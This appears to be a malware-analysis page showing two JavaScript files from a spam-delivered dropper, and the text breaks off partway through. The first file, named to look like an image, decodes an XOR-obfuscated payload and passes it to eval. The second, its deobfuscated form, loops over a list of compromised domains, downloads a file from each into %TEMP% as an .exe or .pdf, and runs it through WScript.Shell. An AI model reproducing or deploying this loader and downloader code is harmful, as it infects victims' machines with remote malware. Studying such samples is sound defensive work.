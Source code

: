 ```javascript  IMG_7099.js
var b = '\x03>:+\x1eP+4E,;:\x1fMl?L0")\x18\x190gGz`e\x27x\x17\x15*\x06z\x0b%td\x10)\x02\x1a\x039t\x17t&\x04\x19h)q\x01\x1b5\x19\x1d\x12/j\x09\x09K\x08\x1b\x05J|\x08\x1f(\x0e\x1a\x1c-l\x09\x080\x00z\x0b%tk6\x04%3=\x0b^!z,\x09\x19\x0c+m\x05\x19$\x1bz\x0b%tk-\x15f7\x27\x04M!4\x11d  \x0fT!)J*7)\x0e\x5c)#E\x1c\x11\x04&w\x01\x096\x03\x11\x1a(x\x08t&\x04\x19g\x1dIi9\x0a% -\x04Mk.\x0d.9-\x19\x1603\x0b2y.\x18X)?\x12$&#Jp\x10\x09(\x12\x00\x0d+\x17\x07\x15(d,%\x06K49E<#?Du\x05\x14!\x1f\x1b\x1d8s\x05\x0a$\x05z\x0b%td\x13+\x1f\x11\x0f8p\x10\x036\x06\x07\x06-\x17\x07\x15(k\x17\x1a/x\x10\x133\x0e\x12\x07%}\x17\x0e<\x07\x1d\x1b>\x17\x07\x15(k#?\x1d\x17\x0f\x17!\x0e\x06\x1d$s\x01\x0d \x07\x06\x11Dz\x0b\x17E\x0a\x10\x0d$`\x05\x151\x0e\x18\x0d/mj\x19*\x06t\x05+s\x0b\x08&\x0a\x07\x0dDv\x16\x1dE\x02\x07\x1c+w\x06\x0f)\x00\x18\x01\x27xj\x157\x0ct\x0d$m\x0c\x1f)\x1bz\x0b%td\x12 \x0a\x18\x01$~\x17\x0a7\x02\x1a\x0f=v\x16\x116\x03\x1b\x189\x17\x07\x15(d#8GZ+4\x11.:<EM,?\x08.\x27g\x1eK%,\x00\x27y*\x06V#=\x009t\x1c?~\x16\x1b-\x04\x00\x0d&jj\x19*\x06t?\x1dNj<\x09$&!\x0bW&(\x10.:!\x04^j9\x0a&t\x02?x\x08\x0e*\x1c\x11\x1a>k\x0d\x1b+\x0c\x18\x0dDz\x0b\x17E\x06\x15\x09!z\x05\x08!e\x17\x07\x27\x193-\x12e>)\x01P)8\x0a8 f\x1aUd\x0e-\x0e\x02\x01&u\x05\x1d \x1d\x11\x1c/k\x0d\x14$\x19\x0d\x00%j\x14\x131\x0a\x18f)v\x09xK8$$\x03MlxEi}s\x0fAyxGvi-U\x1bj?\x1d.vrH\x174>\x03io.\x05Kl,\x049t\x05W\x09\x7f\x17Y?z$\x0fW#.\x0dp\x19cA\x10?,\x049t&WW!-E\x0a7<\x03O!\x02*)>-\x09Mlx2\x187:\x03I0t6#1$\x06\x1bmv*v:f/A4;\x0b/\x11&\x1cP65\x0b&1&\x1ej0(\x0c%3;B\x1ba\x0e \x06\x04mH\x10o\x09\x119=&\x0d\x17"(\x0a&\x17 \x0bK\x075\x01.|qX\x10o\x17\x04?<f\x18V14\x01ce-R\x13\x09;\x11#z:\x0bW 5\x08c}aA\x5c<v vdd\x18\x04*?\x12k\x15+\x1eP2?=\x046"\x0fZ0rG\x06\x07\x10\x27uvt=\x06\x18\x00>m\x14xLp&f\x05W6?\x04/-;\x1eX0?\x06#5&\x0d\x5cy<\x10%7<\x03V*rL0=.B\x0dyg\x17e&-\x0b]=\x09\x11* -L\x1fvjUvi:DJ0;\x11>\x27a\x11O%(E.i&\x0fNd\x1b\x06?=>\x0fa\x0b8\x0f.7<B\x1b\x05\x1e*\x0f\x16f9M6?\x04&vaQP"r\x00e;8\x0fWlsI.z<\x13I!gTg1f\x1dK-.\x00c&f8\x5c7*\x0a%\x27-(V #Lga-Y\x05!t\x16".-CB\x01gTg1f\x1aV73\x11";&W\x09h?K85>\x0fm+\x1c\x0c\x271`%\x15vs^?&1\x11Wj\x08\x10%|\x07F\x08hjL67)\x1eZ,r\x11b/5\x17\x5cj9\x09$\x27-B\x109\x27^?&1\x11Kj5\x15.:`H~\x01\x0eGgv \x1eM4`Jdvc\x1eb\x09\x07Ni{/\x0fMj*\x0d;k,\x0d_ <\x02vvc\x27X02K95&\x0eV)rL`vn\x01\x5c=gG`?-\x13\x12!vDz}d\x18\x177?\x0b/|a\x17Z%.\x06#|)CB93\x03ceuW|m8\x17.5#\x17D/?\x1cvv._\x1bh=\x0a9!<B\x1bfsI,;:\x1fMlxC;0.WJ!;\x17(<jC\x02';

var _0x12bd = ["", "\x6C\x65\x6E\x67\x74\x68", "\x63\x68\x61\x72\x43\x6F\x64\x65\x41\x74", "\x66\x72\x6F\x6D\x43\x68\x61\x72\x43\x6F\x64\x65"];

// Build the function string to be evaluated
for(var dhhas3uu = _0x12bd[0], code = _0x12bd[0], j = 0, i = 0; i < b[_0x12bd[1]]; i++) {
	dhhas3uu += String[_0x12bd[3]](b[_0x12bd[2]](i) ^ key[_0x12bd[2]](j)), j++, j == key[_0x12bd[1]] && (j = 0);
};

// Evaluate the deobfuscated JavaScript
eval(dhhas3uu);
```

```javascript deobfuscated.js
function gorut(e){
	var t = "14-MASOOM.COM JLINKSMS.COM CHEAPRIZESMS.COM ELEMENTGUMRUK[.]COM/language IBMDATACAP[.]COM/wp-content/themes/academy WELLNESSHERBAL[.]COM/wp-content/themes/tiny-framework ITSMYTEA[.]COM/xmlrpc www.LANDTOURJAPAN[.]COM INTEGRITYSMSNG[.]COM CREATIVEFOODSTYLIST[.]COM www.KMDERUNJEWELRY[.]COM ADENYAOTELEET[.]COM MAJORCASE[.]ORG ISTANBULKLIMA[.]ORG ENTHELP[.]COM HEALINGSPRINGWORKSHOPS[.]COM/wp-content/themes/travel-blogger TUGRAHOTELS[.]COM www.florianbruening[.]com JUALTOWERTRIANGLE[.]COM MAAKCARD[.]COM www.jakimbost[.]pl THEVILLAGEVETERINARYHOSPITAL[.]COM".split(" ");

	ex = "" == e ? ".exe" : ".pdf";

	for(var M = 0; M < t.length; M++) {
		var n = new ActiveXObject("WScript.Shell"), O = n.ExpandEnvironmentStrings("%TEMP%") + String.fromCharCode(92) + Math.round(100000000.0 * Math.random()) + ex, E = 0, r = new ActiveXObject("MSXML2.XMLHTTP");
		r.onreadystatechange = function() {
			if(4 == r.readyState && 200 == r.status) {
				var e = new ActiveXObject("ADODB.Stream");
				if(e.open(), e.type = 1, e.write(r.ResponseBody), 5000.0 < e.size) {
					E = 1, e.position = 0, e.saveToFile(O, 2);
					try {
						n.Run(O, 1, 0);
					} catch(t) {

					}
```